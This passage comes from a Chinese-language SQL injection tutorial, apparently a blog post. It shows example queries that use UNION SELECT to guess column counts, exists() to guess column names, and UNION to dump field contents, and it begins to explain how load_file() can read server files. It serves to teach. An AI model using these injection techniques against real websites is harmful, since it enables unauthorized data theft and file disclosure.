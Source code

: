 原理是：利用两边结果集必须相等列数！



    select * from hehe where id =3 and 1=1 union select 1,2,3;

![][14]

如图，第一次我们猜测两列（1,2）失败了，第二次我们猜测三列（1,2,3）成功了。

**总结：我们用and union select 1,2,3,4,5,6...;来猜解列数，只有列数相等了，才能返回True！**

(3)猜解列名

用猜解表名的方法： 


     select * from hehe where id=3 and exists(select name from hehe);

![][15]

  
如图，第一次我们猜解有个列名为name1，报错了，第二次我们猜解列名为name，返回正常，说明真的有个列名为name！

**总结：用 select * from hehe where id=3 and exists(select name from hehe);来猜解列名！**

(4)猜解字段内容

这个通过步骤三我们已经猜解出列名：name和id了。那么怎么让它们暴出内容呢？

用： 

    select * from hehe where id=3 and 1=2  union select 0,0,name from hehe;

## 

![][16]

  
**总结：知道列名后，把列名至于其中任意位置，就能在那个位置暴出列的内容来。实战中不是每一个列的内容都显示在web page上的，所以有的人就先用:**


    unoin select 1,2,3,4,5,6,7 from hehe;

之类的语句，看看web page上出现的数字为几就把列名填写在第几个列上，如：web page上暴出5，那么我们就把SQL语句改成：


    unoin select 1,2,3,4,name,6,7 from hehe;

然后就能暴出来name的内容啦。。

## 二.load_file()和UNION 读取服务器文件内容 

函数 LOAD_FILE(file_name)：读取文件并将这一文件按照字符串的格式返回。 

文件的位置必须在服务器上 , 你必须为文件制定路径全名，而且你还必须拥有 FILE 特许权。

文件必须可读取，文件容量必须小于 max_allowed_packet 字节。

若文件不存在，或因不满足上述条件而不能被读取， 则函数返回值为 NULL。

这个load_file()看起来很正常，因为它就是加载一个绝对路径文件（先保证有读权限）。可是神奇的是:

**它可以在UNOIN中充当一个字段，能够来读取服务器的文件。**


[0]: http://blog.csdn.net/emaste_r/article/details/8156108
[4]: #
[5]: #t0
[6]: #t2
[7]: #t3
[8]: #t4
[9]: ../img/1352253846_8091.png
[10]: ../img/1352254022_5092.PNG
[11]: ../img/1352254257_9095.PNG
[12]: ../img/1352255252_3354.PNG
[13]: ../img/1352255476_6499.PNG
[14]: ../img/1352255740_3935.PNG
[15]: ../img/1352268271_7414.PNG
[16]: ../img/1352267865_5540.PNG
[17]: ../img/1352260121_8624.PNG
[18]: ../img/1352277393_2619.PNG
[19]: ../img/1352277427_4798.PNG
[20]: ../img/1352269608_4152.PNG
[21]: ../img/1352271242_1019.PNG
[22]: ../img/1352271465_3588.PNG
[23]: ../img/1352265001_2115.PNG
[24]: ../img/1352265099_6455.PNG
[25]: ../img/1352265202_6346.PNG
[26]: ../img/1352265847_4536.PNG
[27]: ../img/1352268965_6686.PNG